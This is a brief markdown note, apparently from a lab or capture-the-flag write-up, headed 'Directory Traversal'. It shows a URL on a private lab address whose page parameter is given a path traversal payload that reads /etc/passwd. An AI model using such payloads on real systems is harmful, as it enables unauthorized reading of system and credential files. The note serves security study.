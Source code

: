 # Directory Traversal

```
http://192.168.56.110/?page=member
http://192.168.56.110/?page=../../../../../../../etc/passwd
```
